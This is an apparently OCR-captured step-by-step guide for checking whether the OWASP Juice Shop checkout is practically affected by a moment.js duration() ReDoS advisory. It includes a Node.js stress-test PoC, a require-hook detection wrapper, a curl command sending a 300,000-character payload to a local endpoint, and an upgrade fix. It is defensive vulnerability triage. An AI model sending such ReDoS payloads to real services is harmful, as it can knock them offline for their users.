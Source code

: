 
GHSA‑87vv‑r9j6‑g5qv (moment.js moment.duration() ReDoS)
Purpose

Minimal, reproducible steps an engineer can run from scratch to determine whether the current OWASP Juice Shop checkout is practically affected by GHSA‑87vv‑r9j6‑g5qv (CVE‑2016‑4055). Do tests in a disposable VM/container.

Summary (one line)

Check vendored moment version. 2) Run a small local PoC that measures moment.duration() timings. 3) (Optional) run a tiny runtime wrapper to detect whether request data ever reaches moment.duration().

Files you will create (put under part2_verification/)

redos_test.js — function PoC (stress test)

start_with_wrapper.js — runtime wrapper (optional)

logs/ — directory to save outputs:

npm_ls_moment.txt

redos_output.txt

wrapper_stdout.txt

endpoint_test.txt (only if used)

verdict.txt — one-line conclusion

Step-by-step (copy & paste)

Clone the repo
git clone https://github.com/juice-shop/juice-shop.git

cd juice-shop

Check vendored moment version
node -e "console.log(require('express-jwt/node_modules/moment').version)" \

part2_verification/logs/npm_ls_moment.txt 2>&1
cat part2_verification/logs/npm_ls_moment.txt
Interpretation: If version < 2.11.2 (e.g. 2.0.0) the dependency is vulnerable in principle.

Minimal function PoC (required)
Create and run the simple stress test:
mkdir -p part2_verification/logs

(create file)
cat > part2_verification/redos_test.js <<'JS'
const moment = require('express-jwt/node_modules/moment');

function gen(len){ return '-' + '1'.repeat(len); }
function run(len){
const s = gen(len);
const start = process.hrtime.bigint();
try{ moment.duration(s); }catch(e){}
const end = process.hrtime.bigint();
console.log(len, (Number(end-start)/1e6).toFixed(3) + ' ms');
}
[20000,50000,100000,200000,500000,1000000,1500000,1800000].forEach(run);
JS

Run:
node part2_verification/redos_test.js | tee part2_verification/logs/redos_output.txt

Quick interpretation:

If times reach seconds for modest sizes (20k–100k) → ReDoS reproduced (exploitable).

If times remain milliseconds even for large sizes (100k–1.8M) → no practical ReDoS observed on this host.

Optional runtime detection (recommended)
Use the wrapper to detect whether any request-driven path calls moment.duration() with a string.

Create wrapper:
cat > part2_verification/start_with_wrapper.js <<'JS'
const Module = require('module');
const orig = Module.prototype.require;
Module.prototype.require = function(path){
const exp = orig.apply(this, arguments);
if(path === 'express-jwt/node_modules/moment' || path === 'moment'){
const m = exp;
const real = m.duration;
m.duration = function(x){
try { if(typeof x === 'string') console.error('[DETECT] moment.duration string length=', x.length); }catch(e){}
return real.apply(this, arguments);
};
return m;
}
return exp;
};
// adjust entry if project uses a different entrypoint
require('./server');
JS

Run wrapper (terminal A):
node part2_verification/start_with_wrapper.js 2>&1 | tee part2_verification/logs/wrapper_stdout.txt

While wrapper runs (terminal B), exercise the app:

open UI, perform searches, login, use APIs.

Inspect logs:
tail -n 200 part2_verification/logs/wrapper_stdout.txt

Interpretation:

If you see "[DETECT] moment.duration string length=..." produced while exercising the app → a runtime path exists that passes a string to moment.duration(). Follow up with endpoint payload test.

If no DETECT logs after exercising UI/API → no evidence that request data reaches moment.duration().

Endpoint payload test (only if wrapper detected a path)
Example (replace endpoint/param):
PAYLOAD=$(python3 - <<'PY'
print('-' + '1'*300000)
PY
)
curl -X POST "http://localhost:3000/
<DETECTED-ENDPOINT>"
-H "Content-Type: application/json"
-d "{"<DETECTED-PARAM>":"$PAYLOAD"}" -m 300 | tee part2_verification/logs/endpoint_test.txt

Monitor server CPU (top/htop) while request runs.
If CPU spikes and request takes many seconds → exploitable.

Minimal deliverables to include in your zip

part2_verification/redos_test.js

part2_verification/start_with_wrapper.js (if used)

part2_verification/logs/npm_ls_moment.txt

part2_verification/logs/redos_output.txt

part2_verification/logs/wrapper_stdout.txt (or state "not run")

part2_verification/verdict.txt

Verdict template (put in part2_verification/verdict.txt)

Observed moment version: <paste version>
Stress test: <attach redos_output.txt>
Wrapper detection: <attach wrapper_stdout.txt or 'not run'>

Conclusion: moment is [vulnerable in dependency if version <2.11.2]. Practical exploitability: [ReDoS reproduced OR No exploit path demonstrated]. Recommended action: upgrade moment to >=2.11.2 (or update/override express-jwt); add CI check and input-length validation.

Short recommended fix (one-liner)

Add to package.json (npm v8+):
"overrides": { "moment": ">=2.11.2" }
then run npm install in a test environment.

Final note (one line)

From the tests you ran (function PoC up to ~1.8M chars and wrapper run with no DETECT logs), the dependency is vulnerable in principle but we did not demonstrate a practical ReDoS exploit path in this Juice Shop checkout — still, upgrade to eliminate the risk.
